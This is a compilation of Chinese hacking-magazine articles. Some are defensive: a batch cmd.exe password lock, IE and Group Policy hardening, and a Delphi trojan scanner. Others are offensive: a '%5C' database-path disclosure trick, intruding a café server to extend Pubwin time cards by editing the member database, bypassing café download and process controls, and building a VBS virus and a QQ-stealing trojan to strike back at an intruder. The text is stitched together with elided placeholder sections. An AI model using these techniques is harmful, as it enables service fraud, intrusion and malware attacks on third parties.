具体方案就是每次在系统调用 cmd.exe 之前，让系统先加载一个密码验证模块，通过验证可以继续使用，没通过那就抱歉了，你的所有操作都被禁止了。当然了，我们还需要有一个完善的日志，这样如果有人入侵系统就会很容易被我们察觉。

## 三、行动

心动不如行动，现在我们就来制作这个密码验证部分。不会编程没关系，我们选用的是最简单的 .bat，不仅因为它简单，还因为它是用 cmd 执行的，所以验证后进程很流畅，并且不会浪费一点系统资源。

开始工作，打开一个空的记事本，然后跟着我往里写代码。首先我们要关闭回显，设置窗口标题（防止别人看到你的程序路径）和用到的环境变量初始值，还要用 `SETLOCAL` 命令将环境变量锁定在批处理内部，防止 `set` 命令将变量的值泄露，代码如下：

```bat
@echo off
title 解除锁定
SETLOCAL
set pass=0
set times=2
```

然后，我们来设定用户在使用时所显示的提示，用 `echo` 命令实现。

echo 为安全起见，您的 cmd.exe 已经被管理员锁定，要解除锁定，请输入密码。

接着是日志记录，我们要把使用 cmd.exe 的时间准确地记录下来，这要用到 `%date%` 和 `%time%` 两个系统内置变量。

```bat
echo 操作：密码验证激活    时间：%time%    日期：%date% >> c:\log.txt
echo 状态：等待输入密码 >> c:\log.txt
echo. >> c:\log.txt
```

这部分用重定向 `>>` 将当前的日期、时间等信息写入到 `c:\log.txt` 文件，从而完成记录。

下一步就是最关键的密码认证部分了。首先让用户输入一个密码，然后用它与设定的密码来比较，若是相同就跳转到 `ok` 处执行，通过验证。若不相同则继续判断，同时要有相应的日志记录。

```bat
:start
set /p pass= 请输入您的密码
if %pass%==Rain goto ok
echo 密码错误。请重新输入，您还有 %times% 次机会
if %times%==0 goto end
echo 状态：用户输入密码，验证失败。时间：%time% >> c:\log.txt
set /A times=%times%-1
goto start
```

其中的 Rain 就是密码，要注意大小写哟。最后 `goto` 的作用是验证失败的话重新回到等待验证状态。当然我们不能让系统无休止地验证，否则别人可以用暴力破解了，所以我们加上 `set /A times=%times%-1` 来计算验证次数，用 `if` 判断。若验证次数达到 3 次则验证失败，进入 end 被锁定。

做完验证部分，接下来就是验证失败后的处理了。看代码：

```bat
:end
echo 状态：用户3次输入密码错误，程序锁定。时间：%time% >> c:\log.txt
title 验证失败，3次操作已经禁止，请关闭窗口
cls
echo 3次验证失败，你已经被锁定，无法继续操作，你可以关闭本窗口
echo 你也可以通过留言来与管理员取得联系。输入留言按回车提交
:m
set /p m= 请输入您的留言
echo 日期：%date%  时间：%time% >> c:\message.txt
echo 留言内容： >> c:\message.txt
echo %m% >> c:\message.txt
echo. >> c:\message.txt
echo 你的留言 %m% 已经记录，你可以关闭窗口或者继续留言
echo 操作：用户留言。时间：%time% >> c:\log.txt
goto m
```

这部分的作用是，首先将验证失败记录到日志，然后更改标题并告诉使用者密码验证没有通过。接下来的便是一个人性化的留言部分。用 `set /p m= 请输入您的留言` 命令来记录用户留言，然后把它们存放在 `c:\message.txt` 里。这里有一个死循环，把用户锁定在输入留言部分，从而无法进行其他操作了。因为采用的是 `set /p`，要求用户输入环境变量，所以即使 Ctrl 停止也无法绕过去，从而保证了程序的可靠性。

最后要做的就是通过验证的部分了，也就是程序的出口。代码很简单，先写入日志，再把窗口标题改回 cmd，最后用 `ENDLOCAL` 结束环境变量的锁定：

```bat
:ok
echo 状态：密码正确，程序锁定解除。时间：%time% >> c:\log.txt
title cmd.exe
ENDLOCAL
cls
ver
```

## 四、安装程序

关闭用 cmd.exe 之前都先运行我们的程序了，也就是程序的安装。微软就为我们提供了解决方案。我们把刚才写的程序保存为 `lock.bat`，然后复制到你的 Windows 目录（一般为 `C:\Windows`）。紧接着，新建一个记事本，在里面输入图1的内容。

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor]
"AutoRun"="lock.bat"
```

图1 lock.reg 文件的代码

**注意：REGEDIT4 下要空一行。** 完成后把它保存为 `lock.reg`。双击打开 `lock.reg`，把它导入注册表，这样整个封锁工作就算完成了。

由于版面的关系，上面代码中美化输出格式的部分都省略了。完整的代码（lock.bat、lock.reg 和 setup.bat）光盘里有收录。其中 setup.bat 是一个简单的安装程序，直接运行就可以自动把 lock.bat 安装到你的系统。

## 五、效果测试


同时我们的使用信息也被记录到 log.txt 了（如图3）。


要是我们输入正确的密码，就会出现如图4所示的命令提示符了，这样锁定解除。


当我们三次输入的密码都不正确，就会出现如图5所示的窗口，这时你的操作都被禁止了，当然你可以给管理员留言。


我们来试试，输入几条留言（如图6）。


当我们打开 message.txt 就会看到留言了（如图7）。


对入侵的防护能力，我们选用了两款木马来做测试。首先是元老级后门 Winshell。在目标机上种下 Winshell 后门，然后 telnet 登录，取得对方的 Shell，结果如图8所示。


它要求我们输入密码！呵呵，这样不就把黑客封杀了吗？即使不小心中了木马，黑客也不能通过木马控制你的电脑了。同时，在 log.txt 里也留下了黑客使用的记录，定期查看这个记录你就能知道自己的电脑是否被入侵了！

然后我们再试试最近炒得火热的木马流萤。笔者选用的是流萤 V2.2 版，结果发现在控制有 cmd 防护的电脑时，流萤的 CMD 终端、进程管理、注册表管理、文件管理和远程控制等功能全部失效了，唯一能用的就剩截图了。并且在 log.txt 里留有大量记录。可见用这种方法，不需要任何工具，就能轻松地把危险拒之门外了。

## 六、小结

其实本文也没用到太多高深的知识，很简单的思路，但却能取得非常好的效果。关键就是能把你已经有的东西完全利用起来。学习安全也是一样，不要忽略身边的小东西，它们会带给你意想不到的效果。

> 编辑点评：作者利用批处理命令打造出这么完善的功能，我非常喜欢。Windows 漏洞多多，那么我们就用身边的“泥巴”来堵。你是不是感觉到批处理命令的强大了呢？还不快动手玩玩。

# 暴库防范新方法

光芒果

从本文你可以学到：

- 如何正确区分相对路径和绝对路径。
- 防范暴库的小技巧。

暴库在入侵中是一种实用又方便的入侵方法，这样一来对暴库的防范也就显得十分重要。目前流行的防范方法有两种：一种是直接屏蔽掉 IIS 的错误信息显示；另一种是在数据库连接语句后加上 `On Error Resume Next`。这种语句意思是：若出现错误，继续执行下面的语句，不会抛出错误。但在实践中又会带来新的问题，因此需要进一步改进。

要知道怎么防范暴库，先要了解暴库形成原理。以 `conn.asp` 为例，攻击者直接访问数据库连接文件，使服务器报错，再通过错误提示信息来推断数据库地址。

> 什么是相对路径和绝对路径？

相对路径是相对于服务器 Web 根目录的路径；绝对路径是磁盘上的完整路径。例如网站根目录为 `D:\wwwroot`，`inc` 目录可通过 `www.xxx.com/inc` 访问，而其绝对路径是 `D:\wwwroot\inc`。

如果 `conn.asp` 位于 `inc` 目录并使用相对路径连接数据库，直接访问时会导致路径拼接错误，从而触发类似 `inc/data/data.mdb` 这样的错误路径并报错（如图1）。

很明显，报错说明 `inc` 下的数据库路径不是有效路径。若将 `inc` 后的路径替换成相对站点根目录的路径，就可能得到数据库位置。进一步地，可使用 `%5C` 技法：把站点 URL 最后一个 `/` 改为 `%5C`，有机会触发数据库物理路径泄露。

之所以 `%5C` 有效，是因为 `%5C` 表示反斜杠 `\`。浏览器中直接输入 `\` 往往会被处理，但 `%5C` 不会被同样转换。IIS 在解析时可能将其视作路径分隔并触发异常，从而暴露数据库地址。

```asp
dbpath = Server.MapPath("data/data.mdb")
```

`Server.MapPath` 用于把相对路径映射为绝对路径。若 IIS 根目录在 `D:\wwwroot`，论坛在 `bbs` 目录下，则相对路径 `data/data.mdb` 可映射到类似 `D:\wwwroot\bbs\data\data.mdb`。若存在虚拟目录，路径解析会更复杂，也可能成为 `%5C` 技法可利用的原因。

当 IIS 遇到 `%5C` 并把它按目录层级解析时，可能错误回溯路径，最终访问不存在的数据库文件并抛出错误提示（如图2）。


图1 访问出错


图2 用 %5C 暴库出现错误提示

# 利用 IE 参数来防黑

从本文你可以学到：
- IE 参数的灵活应用
- IE 常用快捷键

IE 是大家常用的浏览器，通过给 IE 添加特定的参数能产生一些特殊的效果，实现一些奇妙的功能，甚至还可以做到防黑大战！不信请看！

在真正应对挑战之前，我们需要做一些准备工作。打开“我的电脑”，找到 IE 的安装目录，这里假设你的 IE 安装在 `C:\Program Files\Internet Explorer` 下。进入该文件夹，找到 `Iexplore.exe` 文件，点击鼠标右键，在弹出的快捷菜单中选择“发送到”→“桌面快捷方式”。这样就在桌面上建立了一个 `Iexplore.exe` 文件的快捷方式，这时桌面上又出现了一个 IE 图标，只要将原来的图标隐藏起来，就可以使用我们新建的快捷方式了。这里我们新建 IE 快捷方式的原因在于，桌面上默认的 IE 快捷方式无法加上参数。

## 一、让 IE 多一层防护

如今在 Windows 系统中，好像最脆弱的就算 IE 了，主页被篡改、被强行添加工具按钮等等 IE 被破坏的情况都是家常便饭，一不小心，IE 就面目全非了。当然防护和修复的方法很多，那么我们能不能通过修改 IE 的参数设置来给脆弱的 IE 多一层防护，让 IE 免遭恶意攻击的毒手，防止主页被篡改、被强行添加工具按钮等等 IE 被破坏的情况发生呢？

这次用的参数是 `-nohome`，方法是：在 `"C:\Program Files\Internet Explorer\IEXPLORE.EXE"` 后添加 `-nohome`，快捷方式的目标栏里的内容变为 `"C:\Program Files\Internet Explorer\IEXPLORE.EXE" -nohome`，点击“确定”。

设置完成后你再双击此快捷方式，就会看到有新的变化。打开 IE 后是一片空白，就连 `about:blank` 也不显示（如图1）。没有了主页，也没有了其它软件在 IE 上添加的工具按钮，而且启动速度也加快了，一点 IE 窗口马上就蹦出来了。


## 二、打造百毒不侵的 IE 主页

相信 IE 主页被修改应该是最常见的 IE 问题了，尤其是多人共用一台电脑的时候，毕竟是公共电脑，谁都有权利把主页修改为自己喜欢的页面。于是，我们就在修改与被修改之间周旋，那么有没有什么行之有效的办法来轻松解决 IE 主页被篡改问题，一劳永逸地实现 IE 主页免受侵害呢？

这又得使用参数了。呵呵，链接参数，还是按上面的办法来实现！在 `"C:\Program Files\Internet Explorer\IEXPLORE.EXE"` 后添加你的主页网址，如 `www.baidu.com`，注意还是得要空格，快捷方式的目标栏里的内容变为 `"C:\Program Files\Internet Explorer\IEXPLORE.EXE" www.baidu.com`。

这样，你每次点击这个快捷方式时，就会打开你设定的网站。不管恶意网站怎么改你的主页，这个快捷方式所指向的网站始终不会改变，可以说是百毒不侵。

## 三、让工具栏和菜单栏无影无踪

为了防止有人使用我们的 IE，我们可以想办法让 IE 的工具栏和菜单栏全部“消失”，而你则可以通过键盘进行操作，保证让对方目瞪口呆，佩服不已！还是用上面的办法，这次要用的参数是 `-k`，在 `"C:\Program Files\Internet Explorer\IEXPLORE.EXE"` 后添加 `-k` 参数（`-k` 前面有一个空格），就可以了。设置完毕点击该快捷方式，就会出现一个没有工具栏和状态栏的全屏幕 IE。

- Alt + 左箭头：上一页
- Alt + 右箭头：下一页
- Ctrl + D：加到我的收藏夹
- Ctrl + H：开启历史记录文件夹
- Ctrl + N：打开新窗口
- Ctrl + O：也可用来输入网址
- Ctrl + W：关闭目前的窗口（等同 Alt + F4）

## 四、让 IE 与资源浏览器联姻

## 五、将收藏夹请到桌面

相信上网的朋友都经常使用收藏夹，大家都是通过它来快速访问自己心爱的网页……（正文多段，含 IE 参数 `-e`、`-channelband` 的说明）


> 在 IE 中设置“我的电脑”安全级别（框内提示文字）

# 黑客的对战，安全与非安全的挑战！

李丰初

## 序幕

前几天，在 NoHack 的官方论坛上有个 ID 叫 TY520 的朋友找到我……本文将从网站安全角度出发，从漏洞分析及修补，再到恶意 ASP 木马的极度追捕……

## 一、漏洞分析

### 1. 网页木马的查找

当我打开 `http://www.54cn.net/home.asp` 网站的时候，出现了杀毒软件的报警（如图1）……图2中选定的代码与一般 HTML 语言有所不同，是加过密的……


极有可能这是挂马的代码。由于我接触多了，知道是用 ENCODE 来加密的，于是我想办法把它还原，解密后得到了真实的代码（如图3）：


呵呵，果然不出所料，木马就是网站的 INC 目录下的 `TZD.HTM` 文件，还用一个 IFRAME 弹出，好狠！

### 2. 网站入侵踩点的探测

用阿D SQL 注入工具 V2.0 破解版来检测，发现注入点，通过注入点得到了管理员的用户名与密码（如图4）。


可以看到，管理员的用户名与密码都被猜解出来了。虽然密码是用 MD5 + 六位加密的，但是都是弱口令，入侵者用类似于 MD5 在线爆破的网站，不用三秒钟就可以把密码爆出来。

## 二、漏洞的修补

### 1. 恶意 ASP 的追杀

由于我已经取得网站管理员的许可，就上传了一个 ASP 木马，以马制马！然后我再上传了一个“二十一世纪网 ASP 木马追捕”，看到名字就知道了，是用来查找恶意 ASP 木马的。查到的结果之一（如图5）：


这是根目录下的查找，查找到可疑文件就用海阳 2006“编辑”按钮打开看看，再输入它的 URL 路径，确认一下是不是木马（如图6）。依此类推，用木马追捕把所有的木马给查找出来，然后用海阳 2006 确认后再删除。

清除恶意的 ASP 木马后，就把 INC 目录下的 `TZD.HTM` 删除。这个就是真正的网页木马。最后把首页的这段代码给删除掉。


```
#@~^YOAAAA==@'b0.m: ...（加密代码片段）
```

到此，网站恶意的 ASP 木马与首页挂马就清除干净了。

### 2. 注入的防范

除去了恶意的 ASP 木马，但是这没有根除注入，如果注入不能修补完的话，那些所谓的黑客下次还会光顾的。防注入本文用到的是“SQL 通用防注入系统 3.0（asp）”，使用方法很简单。

- `Necao_sql_admin.asp` 后台管理文件（请先修改里面的管理密码）
- `Neeao_SqlIn.Asp` 防 SQL 注入主文件
- `SqlIn.mdb` 防注入数据库

全部上传到网站的根目录下，然后打开数据库连接文件 `COON.ASP`，在底部添加上：

```asp
<!--#include File="Neeao_SqlIn.Asp"-->
```

这样整个网站就有通用防注入了。

## 三、恶作剧式的警告

入侵者这么喜欢挂马，肯定要给他一定的恶作剧警告，不然他会太嚣张的哦。现在要用到的工具是“病毒制作机 V1.0”，这个程序可以很傻瓜化地制作出 VBS 病毒，一看就会用，很适合菜鸟级的初级黑客（如图7）。


点击“下一步”，有选择的话，就把它们全部打勾选择上去。现在已经生成了一个 VBS 病毒了。

## 四、尾声

黑亦有道，黑客的技术是一把双刃剑，看你如何用，用对场合就是一把造福的利器，反之则危害社会，值得人深思。

> 【本文中涉及到的工具、源代码以及相关资料，在光盘中有提供：二十一世纪网 ASP 木马追捕、SQL 通用防注入程序 V3.0 正式版、阿D 超酷工具 V2.0 破解版、病毒制造机、加密后的海阳 ASP 木马。】

笔者通过自己帮助朋友清除网页木马的经历，给大家介绍了如何清理自己网站被入侵后留下的网页木马……另外，我们也要明白，网页挂马是一种很不道德的行为啊。


做好了以后，再用 QQ 阿拉大盗做一个盗 QQ 木马……这个木马的地址就是攻击者的地址，只要他一访问他的恶意 ASP 木马，就会中了特定为他打造的超级恶作剧木马了。

# 修复杀毒之后被篡改的 .exe 文件关联

```cmd
assoc .exe
assoc .exe=exefile
```

12 月的天空被冷空气带来的雨水冲刷得格外蔚蓝……难道网管都经常用 `net send` 发消息吗？

# 免费上网，让 Pubwin 点头哈腰

最近网络安全界一直比较平静，虽然时不时也有一个两个 0day 跳出来……不管它了，想想怎么在管理员眼皮子底下免费上网吧。

在网吧使用，简直就是自找拳头吃。我们知道，如果在 Windows 下结束一个服务级别的进程，都会提示权限不够……有什么办法解决呢？OK，Let's have a try!


（正文为三栏排版，主要内容围绕通过 At 命令与系统权限运行 `cmd.exe`、结束 Explorer 进程、绕过 Pubwin 限制等技术讨论。）


# 绕过网吧下载限制之终极方法

yacou[S.C.T]&[A.V.T]

（新文章正文开始，讨论网吧下载限制及突破思路。）

## 一、遇到问题

当我下载一个软件的时候出现拒绝下载的提示（如图1）……通过任务管理器结束 `main.exe` 后又出现 `up.exe` 恢复进程。


## 二、解决问题

### 1. 简单的方法突破下载限制

恰好 yizhigu 在线上，他告诉我通过时间差来突破下载限制，我使用他的方法后无效，让好友传给我的文件也无法接收（如图2）。这时 QQ 网络硬盘有个问题，没有想到却出现一卡空白，就连 QQ 群众共享也无法使用，我更郁闷了。


我在电脑里面东看看西看看，突然在聊天工具里面看到了 UC，想到通过 UC 来传送迅雷，连忙让 yizhigu 帮忙。果真可以传送文件，之后我又让他传了一个冰刃，然后把 `main.exe` 和自己认为可疑的进程全部结束，还是没什么效果。反正现在能下载了，就这样吧！我把工具上传到 UC 的网络硬盘里面，好下次直接使用。

### 2. 突破不了我绕过去

第二天我又来到了这个网吧，不慌不忙地打开 UC 下载迅雷，没有想到出现提示不能下载（如图3）。


这下麻烦了，再次请教 yizhigu，但他说帮别人搞电脑没有时间，难道我就只能对着电脑哭吗？于是我就自己找突破点，开始把所有能想到的、曾经看到的方法都用了，还是不能解决问题。在快绝望的时候突然想到一个点——系统有一个功能，就是脱机浏览曾浏览过的网页，于是东找找西瞧瞧，终于让我找到了绕过网吧管理软件下载限制的办法。

首先，创建一个快捷方式，在输入框里面输入你需要下载的链接，点击下一步（如图4）。在“选择程序标题”的窗口中，随便输入一个名称（这也就是快捷方式的文件名），然后点击完成按钮。


再找到这个快捷方式的图标，在上面单击鼠标右键，在弹出的快捷菜单中选择“允许脱机使用”（如图5）。


此时会出现“脱机收藏夹向导”窗口，在“如果要收藏夹的该页包含其他链接，是否要使链接的网页也可以脱机使用”这个选项里选择“否”。因为我只要下载指定的程序，其他的网页对于我来说是多余的，然后再点击下一步（如图6）。这个地方默认即可，如果选择“仅在执行‘工具’菜单中的‘同步’命令时”，你像创建多个这样的下载方式，就可以批量完成，点击下一步。


当出现询问你是否使用密码的时候，只要默认就可以了，直接点击完成按钮。这时就能看到正在下载我刚才设定的程序了，下载完毕后该窗口会自动关闭（如图7）。


现在有人要问了，程序下载到什么地方了？当然是在 `C:\Documents and Settings\Administrator\Local Settings\Temporary Internet Files\Content.IE5\???????` 这个文件夹里。文件夹名是 `Content.IE5` 的子目录，名字是随机的。至于到底在哪个下面，一下就能找到了。如何访问这个文件夹呢？我们可以通过 QQ 的添加自定义表情来访问到这个文件夹（如图8）。


在“表情管理”的窗口中选择“添加”按钮，则会出现“添加自定义图释”的窗口，在这个窗口里点击“查找图片”按钮（如图9）。


在“打开”窗口中默认只显示图片，我们需把文件类型改为“所有文件(*.*)”，再查找下载的那个程序（如图10）。


把该文件拷到其他盘符，如 D 盘，再安装即可。

### 3. 更方便地不受限制下载

许多朋友会问，我不是需要装迅雷吗，为什么要下载 Opera 浏览器呢？因为这个浏览器不是使用的 IE 内核，稳定性和安全性都十分高，最重要的一点是因为通过它来下载程序，不会受到网吧管理软件的下载限制。网吧管理软件一般只限制跟 IE 相关的一切，而 Opera 不依靠 IE，所以 Opera 绝对是我们最好的选择。

现在我们就来下载一个软件看看，呵呵，成功了（如图11）！如果你的朋友也在网上，可以让他直接传一个 Opera 给你，这样可以省掉许多麻烦哦！

## 三、小结

这个方法几乎可以绕过所有网吧管理软件的限制，但此方法公布后一定会遇到网吧管理软件的封杀。希望大家一起发掘，如果你们有什么好的想法或建议，请去 NoHack 论坛（http://www.NoHack.Cn）和我交流。

> 【本期提到的软件 Opera 在光盘中有提供。】
>
> yacou 想到了用脱机浏览功能来下载软件，这的确是一个不错的想法，大家可以好好学习一下。

# 玩转组策略

# 增强服务器安全

越来越多的人看了网上介绍的各种黑客技巧便来网吧操练，网管们也想尽办法防御，让自己的网吧不被黑客控制。今天我来介绍一下如何正确地设置组策略来增强网吧服务器的安全。

首先我们先运行 `gpedit.msc`，打开组策略编辑器，就会看到本地计算机策略中有“计算机配置”和“用户配置”。选择“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”，里面有“审核策略”“用户权限分配”和“安全选项”，今天我们要修改的是“用户权限分配”和“安全选项”。


先来看看“用户权限分配”吧，里面指定了哪些用户可以做什么事。特别要注意的是，里面有一个“从网络访问此计算机”，它限定了哪些用户可以从网络上访问这台计算机（如图1）。

如果该服务器不做共享服务器的话，建议把里面所有的用户都删除，这样别人知道了管理员密码也没有用了。接着看看“从远程系统强制关机”，默认是 administrators 组都可以。

为了安全，且不需要从远程管理计算机，可以把 administrators 组删除。“拒绝从网络访问这台计算机”中，可以添加 `Everyone`，防止所有人远程登录到我们的服务器（如图2）。

“通过终端服务拒绝登录”也是同理，如果我们不用远程管理，就添加 `Everyone`；并在下面的“通过终端服务允许登录”中，把所有允许的用户删除。


再来看看“安全选项”中有哪些可以增强我们系统的安全性呢？在 XP 及以上系统中，有一项“网络访问：本地账户的共享和安全模式”，在 XP 中默认是来宾权限，而在 Server 2003 中却是“经典”模式，我们需要把它改成来宾模式（如图3）。

……账户和共享的“匿名枚举”，我们都要改成“已启用”，这里从字面就能看出意思了，就不多说了。另外，还要把“网络访问：可匿名访问的共享”“网络访问：可匿名访问的命名管道”“网络访问：可匿名访问的注册表路径和子路径”中的内容清除。最后，在“账户：重命名来宾账户”和“账户：重命名系统管理员账户”中，把系统默认的管理员用户和来宾用户改名。到此，我们通过组策略来增强系统安全的过程就完成了。大家还有不明白的地方，或者有其他更好的方法，欢迎来《黑客手册》的官方论坛（http://www.nohack.cn/bbs）提问交流。

> 【编辑说明】微软提供的组策略让我们对系统进行更全面的设置，而我们却常常忽略了这个可以为我们服务的工具。这篇文章正是用这个工具来为我们提高服务器安全性能服务的，希望对网管朋友们有用。

## Pubwin包时卡之永生记

Wzhpro

自从上次我给大家介绍了如何在Pubwin会员卡中充值以后，很多朋友都说成功了。但是也有一小部分的读者说，他们那里用包时卡（在规定的时间内可以无限制上网）的比较多。那能不能自己延长临时卡的使用时间呢？最近我们这里包时卡也比较流行，我也把我的会员卡改成了包时卡，但是我只包了2天（太贵了），下面我们就来看看怎么修改数据库来延长包时卡的使用时间吧。

首先我们还用以前的方法入侵服务器，用DataBrowser打开Pubwin数据库Member.mdb（如图1。具体如何入侵不用我说了吧，我再说的话大家要觉得烦了，还不会的朋友翻阅一下前几期的《黑客手册》或来论坛提问吧）。

还是和以前一样，进入MemTab_Member表看看，按“Ctrl+F”打开搜索对话框，在关键字处填写自己的会员卡号，指定字段选择“MemberID”，点击“搜索”后，我们的会员记录就会出现在第一位。从MemberType中可以看出，我们是包时会员（如图2）。

我找了一下，没有发现MemTab_Member表有记录时间限制的地方，去其他地方看看吧。这时我看见表“MemTab_LimitTm”，“LimitTm”不就是LimitTime的缩写吗？快打开看看吧。

MemTab_LimitTm表里也有很多的数据，我们还是用搜索功能搜索自己的卡号吧。我在这里发现一个规律：普通会员卡的BeginTm和EndTm都是1899-12-30（我也不知道为什么是这个日期），而包时卡用户的BeginTm是1899-12-30，EndTm就是我们包时卡使用的截止时间。到这里大家就应该知道怎么延长我们卡的使用期了吧？呵呵，我们可以把时间改成自己想要的，例如2005-12-07，最后保存就OK了（如图3）。

就这么简单，包时卡的截止时间就延长了N天，怎么样？呵呵。本文到此结束了，大家有什么不懂的地方来论坛（http://www.nohack.cn/bbs）讨论吧。

> 【本文提到的软件DataBrowser在光盘中有提供】  
> 【编辑感言】以前大家都在会员卡上花钱来免费上网，今天介绍了包时卡的利用，希望对大家有所启发。

# 网吧上网不怕黑

By yacou[S.C.T] & [A.V.T]

网吧安全一直是大家讨论的话题，由于大多数网吧内的安全没有得到有效的重视，才导致恶意事件频频发生。最普通的就是盗号了。依靠所谓的“技术”网管能搞好安全？我不敢苟同。如果你是网管，建议你看看疯狗在10月份《黑客手册》泡泡吧栏目中的文章，里面说得很清楚了。

说实话又有几个网吧这样做了呢？某些“技术”网管，还不知道自己保护自己呢！在7、8月《黑客手册》各刊的泡泡吧栏目中，空气已经说到这个问题了，但是主要针对的系统是XP。想必有的朋友会问，如果是Windows 2000系统，没有安装杀毒软件也没有防火墙，这样的情况又该如何保护自己呢？不要急，我下面就来介绍一个非常简单的方法。

## 1、修改系统管理员的密码

由于网吧里的系统是批量统一安装的，所以大多数网吧客户机系统中的管理员密码是相同的，如账号是administrator，密码是123456等等。这样很容易就被一些扫描器找到弱口令，如X-Scan。所以要先获得当前系统的账号才能进行修改。我这里的网吧把运行功能和C盘给屏蔽了，鼠标右键也不能使用，我们可以先找到一个安装软件或游戏的目录，随便打开一个txt或ini文件，在其中输入`call cmd`，然后保存为bat后缀的文件。这里是cmd.bat，只要我们双击这个文件就可以打开命令提示符窗口了（如图1）。

在命令提示符下输入：`Adump -d`，回车则显示如下信息：

```text
The logon information is:
User Domain: [0019]
User Name: [Sun]
User Password: [*]
```

Sun就是账号名称，接下来我们再输入：`net user Sun www.nohack.cn`，回车，现在密码就被成功修改了。`www.nohack.cn`就是当前的新密码了。这样一来就不怕有人通过扫描器找到你的密码了。

## 2、禁止默认共享

Windows 2000默认会共享所有的盘符，一旦对方拿到密码就会直接通过IPC$连接你，接着把盗号程序传过去，再远程执行盗号程序。我们只要删除默认共享即可。

在命令提示符下输入：

```bat
net share ipc$ /del
net share admin$ /del
net share c$ /del
net share d$ /del
```

记得有多少个盘符就要删除多少个盘符的默认共享。

## 3、安装防火墙

安装防火墙是最好的防御方式了。有朋友会说安装了防火墙后就要重新启动，重新启动后就会被还原精灵还原恢复，这不是没有用？非也，我们可以安装不需要重新启动的防火墙啊，如瑞星。我知道大家会说要钱，但是我们免费使用不就可以了，网络上有许多瑞星序列号和ID，能不能升级无所谓，我们只要下载安装版的瑞星即可。

下载地址是：http://go.rising.com.cn/download/index.htm。安装完毕后我们要对防火墙设置一下，首先用防火墙来屏蔽掉本地的一些危险端口，如：135、445等（如图2）。然后我们要建立一个IP规则来阻止盗号程序的埋伏，在IP规则设置中，点击“增加规则”按钮。在“编辑IP规则”的窗口里按照图3进行设置。

设置好后防火墙会不时提示一些程序要求连接到指定网络，只要让一些我们常用的软件通过防火墙就可以了。如果出现可疑或你不熟悉的就不要让它通过，如某个程序NTdhcp.exe要求连接网络（如图4），有经验的朋友一看就知道是流氓程序了。如果你没有经验也没有关系，因为我们刚才设置了一个IP规则来保护我们不被盗号程序骚扰，这里我们就允许吧。

当我在登录另一个QQ的时候，出现一个提示，主要告诉我们本地机器正在连接一个IP为220.181.31.174、端口为25的地址。这个端口主要是用来发送电子邮件的，当前我没有使用E-mail之类的软件，越来越可疑了（图5）。

根据经验判断，这个地址好像是smtp.126.com的地址。为了证明，我们可以建立一个CMD.BAT文件，在文件里输入`ping smtp.126.com >haha.txt`，然后双击这个CMD.BAT文件，再打开haha.txt一看果然是126的IP，也就证明了我所在的电脑里有偷QQ的程序，见图6。

最后：本文没有什么技术，只是为网吧上网族提供一个有效保护自我安全的方法。整个设置过程很简单，也花不了你多少时间。设置好后就可以高枕无忧地上个放心网了，如果你有更好的方法请到http://www.nohack.cn/bbs和我交流，我的ID是yacou。

（本文提到的软件ADump在光盘中有提供。）

> 编辑点评：yacou用更改密码、删除共享和安装防火墙的方法来帮助我们提高自身网络的安全性，可以有效地防止大家在网吧上网的时候被黑，大家可以好好学习一下。

# 木马专杀工具，确实是大虾们的专利

看了这么多期的《黑客手册》，学了不少黑客工具的编写技巧，不过老写那些害人的木马程序心里也有些过意不去。今天咱也来当回“正面人物”，通过举例来教大家写一个简单的木马专杀工具。先让大家看看成品（如图1），虽然界面难看了点，这就靠大家来美化咯。

要想学会写专杀工具，首先要会手工杀毒。那就让我们回忆一下基本木马病毒（这里先不谈线程插入式木马）的手工杀毒过程：

- 1. 分析病毒。这个是废话，这就靠大家八仙过海各显神通了，不管你是通过反汇编分析（牛人）还是直接上网找资料，只要能拿到这个病毒的详细资料就可以了。这也是最关键的一步，成败就在这了。
- 2. 结束进程。如果病毒进程没结束，后面一切都白搭。
- 3. 删除病毒文件。
- 4. 删除病毒的启动项。
- 5. 修复系统，包括文件关联等善后工作。这点就要看你第二步有没有完成好，万一漏掉一点没做，那病毒就会死灰复燃，只能重头来过。

要做成专杀工具，只要把前面的步骤一步步翻译成程序就可以了。下面笔者就用一个同学发给我的QQ尾巴病毒（光盘中有收录）作为例子来详细说明，掌握这个病毒查杀原理以后遇到其他木马也就能举一反三了。编程工具当然选用笔者最喜欢的、新手最容易掌握的Delphi啦。

> Worm.QQmsgMyRun.b.30406根据分析，这个病毒会把自身复制到系统文件夹里形成两个文件，并且复制一份到Windows文件夹里的System（针对2000/XP）或System32（针对9X）的文件……

- （若干条前文步骤，内容涉及处理QQ木马样本文件）
- 将QQ文件夹里的`TMPlatform.exe`改名为`TMP!atform.exe`
- 使用自制文件替换原文件
- 相关病毒细节与手工查杀方法可在金山毒霸论坛查看

下面就开始我们的反病毒之旅。新建一个Delphi工程，加入Edit、Memo（用于显示状态）和OpenDialog组件（命名为OpenD）。

## 二、核心——特征码扫描的简单实现

在专杀工具中，无论扫描进程还是文件，都需要先判断是否为病毒文件。这里采用“特征码扫描”的基础方式：先提取病毒特征码，再进行比对。

```delphi
function Isvirus(Filename:string):boolean;
var
  Tarcode:array[0..127] of byte;
  TarFile:TFileStream;
  i:integer;
begin
  Result:=false;
  TarFile:=TFileStream.Create(Filename,fmShareDenyNone);
  if TarFile.Size<2200 then begin
    TarFile.Free;
    exit;
  end else begin
    try
      TarFile.Seek(2048,soFromBeginning);
      TarFile.ReadBuffer(Tarcode,128);
      for i:=0 to 127 do
        if Tarcode[i]<>Vircode[i] then exit;
      Result:=true;
    finally
      TarFile.Free;
    end;
  end;
end;
```

以上代码通过文件流读取2048附近的128字节并与`Vircode`比较；若存在任一字节不同则返回false。并提示先判断文件大小，避免越界读取。

为了便于修改与维护，将128字节特征码放在程序文件末尾，运行时自动读取，因此需要在`FormCreate`中加载。

```delphi
procedure TForm1.FormCreate(Sender: TObject);
var
  MyFile:TFileStream;
begin
  MyFile:=TFileStream.Create(Application.ExeName,fmOpenRead or fmShareDenyNone);
  try
    MyFile.Seek(-128,soFromEnd);
    MyFile.ReadBuffer(Vircode,128);
  finally
    MyFile.Free;
  end;
end;
```

说明：编译后的程序需再用WinHex将128字节粘贴到文件尾部后才能正常使用。

## 三、进程扫描——清灭内存中的病毒

接下来讨论进程扫描流程：遍历进程、遍历模块、定位可执行文件并调用`Isvirus`判断，命中后记录并准备清除。

```delphi
procedure KillProcess();
const
  PROCESS_TERMINATE=$0001;
var
  Psnapshot,Msnapshot:THandle;
  Pr:PROCESSENTRY32;
  Mr:MODULEENTRY32;
